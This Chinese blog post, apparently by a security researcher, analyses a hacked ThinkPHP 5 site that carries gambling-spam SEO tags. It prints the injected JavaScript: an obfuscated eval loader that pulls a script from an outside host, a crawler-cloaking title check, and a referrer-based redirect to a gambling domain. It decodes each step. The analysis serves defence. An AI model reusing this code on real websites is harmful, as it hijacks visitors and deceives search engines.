 ```yaml
---
date: 2019-08-19 10:17:46
title: 记一次网页 js 挂马
description: 网页挂马一般是向页面中加入恶意代码进行转跳、下载木马病毒等操作。
categories:
  - Pentest
tags:
  - js
---
```


### 0x00 常见网页挂马方式
* iframe 框架挂马  
    简单来说就是加 iframe 标签
* script 挂马  
    通过各种办法加载 js 代码
* htm 文件挂马
    上传 htm 文件，然后用 script 引入
* js 挂马
    上传 js 文件，然后用 script 引入
* 图片伪装挂马
    比较新颖的一种挂马隐蔽方法
* 等等。。。

### 0x01 发现被插入恶意 js
前几天在做子域名搜集，搜集完后提取 title，结果看到了一个站点的 title 不正常

网站是 tp5 的，应该是前段时候 tp5 出现命令执行时被入侵的

查看网页 html 源码发现 title 和 meta 的 description 都被改了
```
<title>&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;</title>
<meta name="keywords" content="&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#24179;&#21488;&#44;&#30495;&#38065;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#44;&#25250;&#24196;&#29275;&#29275;&#25163;&#28216;&#19979;&#36733;"/>
<meta name="description" content="&#25250;&#24196;&#29275;&#29275;&#12304;&#55;&#49;&#49;&#49;&#48;&#46;&#99;&#111;&#109;&#12305;&#29616;&#20844;&#21496;&#25317;&#26377;&#19968;&#25209;&#26377;&#20960;&#21313;&#24180;&#21644;&#22810;&#25250;&#24196;&#29275;&#29275;&#25216;&#24039;&#24180;&#40831;&#36718;&#27979;&#37327;&#20013;&#24515;&#21046;&#36896;&#32463;&#39564;&#30340;&#20154;&#21592;&#44;&#25250;&#24196;&#29275;&#29275;&#28216;&#25103;&#35268;&#21017;&#38598;&#25104;&#20102;&#22269;&#20869;&#39030;&#23574;&#40831;&#36718;&#27979;&#37327;&#25216;&#26415;"/>
```

解码一下
```
<title>抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载</title>
<meta name="keywords" content="抢庄牛牛游戏平台,真钱抢庄牛牛游戏,抢庄牛牛手游下载"/>
<meta name="description" content="抢庄牛牛【71110.com】现公司拥有一批有几十年和多抢庄牛牛技巧年齿轮测量中心制造经验的人员,抢庄牛牛游戏规则集成了国内顶尖齿轮测量技术"/>
```

### 0x02 简单分析
紧接着有一段 js 代码
```
<script>if(navigator.userAgent.toLocaleLowerCase().indexOf("baidu") == -1){document.title ="XXXX-首页"}</script>
<script type="text/javascript">eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
</script>
```

第一个 script 标签中判断了 UA 中是否有 baidu 这个字符，应该是判断是否为百度爬虫，不是的话就显示正常的 title

第二个 script 标签的 js 被简单加密了
```
(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('m["\\n\\b\\2\\e\\f\\7\\l\\0"]["\\o\\4\\8\\0\\7"](\'\\j\\1\\2\\4\\8\\3\\0 \\0\\k\\3\\7\\d\\6\\0\\7\\p\\0\\5\\h\\c\\t\\c\\1\\2\\4\\8\\3\\0\\6 \\1\\4\\2\\d\\6\\9\\0\\0\\3\\1\\v\\5\\5\\1\\a\\9\\e\\a\\9\\s\\g\\2\\b\\f\\5\\u\\r\\q\\3\\g\\h\\1\\6\\i\\j\\5\\1\\2\\4\\8\\3\\0\\i\');',32,32,'x74|x73|x63|x70|x72|x2f|x22|x65|x69|x68|x66|x6f|x61|x3d|x75|x6d|x2e|x6a|x3e|x3c|x79|x6e|window|x64|x77|x78|x71|x38|x32|x76|x6b|x3a'.split('|'),0,{}))
```

先在 chrome 的 Console 运行后得到
```
"window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');"
```

python 将 16 进制转化为字符串
```
>>> '''window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x22\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x22 \x73\x72\x63\x3d\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x73\x66\x68\x75\x66\x68\x32\x2e\x63\x6f\x6d\x2f\x6b\x38\x71\x70\x2e\x6a\x73\x22\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');'''
window["document"]["write"]('<script type="text/javascript" src="https://sfhufh2.com/k8qp.js"></script>');
```

可以看到上面那段加密的代码作用是引入 k8qp.js 这个 js 文件，而这个文件中有下面这一段 js
```
document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln(
    "if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )"
);
document.writeln("location.href=\"https://71110tz.com/\";");
document.writeln("</script>");
```

判断了 Referer，是 baidu、sogou、soso 之类的话 location.href 跳转到恶意站点 https://71110tz.com/

<br>
以上

<br>
#### Reference(侵删)：
* [https://www.test404.com/post-655.html?wafcloud=1](https://www.test404.com/post-655.html?wafcloud=1?_blank)
